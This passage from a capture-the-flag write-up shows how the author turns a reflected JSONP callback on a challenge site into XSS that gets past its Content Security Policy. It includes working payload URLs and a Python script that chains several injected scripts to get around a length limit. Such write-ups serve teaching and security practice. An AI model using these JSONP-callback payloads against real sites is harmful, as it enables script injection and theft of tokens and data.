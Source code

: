 If we take a look at the network traffic we can see a `GET` request to `http://xss.allesctf.net/items.php?cb=parseItems`
@import "traffic1.png"
As the parameter name already hints `cb` is a callback. And the response is a `js` script:
```js
parseItems([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schÃ¶n."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```
The format is called `JSONP` it is basically `JSON` wrapped by a callback so that when loaded as a `<script>` it will execute the defined callback. [JSONP on Wikipedia](https://en.wikipedia.org/wiki/JSONP)
If we change the `cb` parameter value we can observer that our input is reflected into the response.
@import "reflect.png"

The `CSP evaluator` mentioned that we should make sure that no `JSONP` is hosted.

We can use the first injection to load a script from `xss.allesctf.net/items.php?cb=...` and set `cb` to some code, here  is the URL for `alert`:
`http://xss.allesctf.net/items.php?cb=alert();//`
this results in the response:
```js
alert();//([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schÃ¶n."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```
The `//` comments out everything after our callback name, therefore we can execute what we want.
Visiting `http://xss.allesctf.net/?search=<script+src='http://xss.allesctf.net/items.php?cb=alert();//'></script>` pops an alert :D
@import "alert.png"

So we can now simply get that flag, right?
The flag is on the page of `stage2`, but we need the right to access it.
@import "token.png"
Otherwise the access is denied..
@import "token2.png"

Fortunately the token is inside the code of `stage1`
@import "token3.png"

Plan:
 1. use the xss on stage1 to get the token
 2. use fetch to get the content of stage2 and grab the flag
 3. submit the flag

The `items.php` has some kind of blacklist some strings are replaced with `FORBIDDEN_CHAR` like: `<` and `>` or `eval`. But most stuff is allowed and the restriction won't cause much problems. There is another restriction a maximum of 250 chars for `cb`. But we can load multiple scripts in the first place and I wrote a simple python script that creates a URL for me.
```python
import requests

s = requests.Session()

def quote(s):
    return s.replace("=","%3d").replace(" ","+").replace("\n",";")

def exec_js(js):
    url = "http://xss.allesctf.net/?search="
    for j in js:
        url+="%%3Cscript%%20src='http://xss.allesctf.net/items.php?cb=%s//'%%3E%%3C/script%%3E" %(quote(j))
    return url

print(exec_js(["alert(1)","alert(2)"]))
```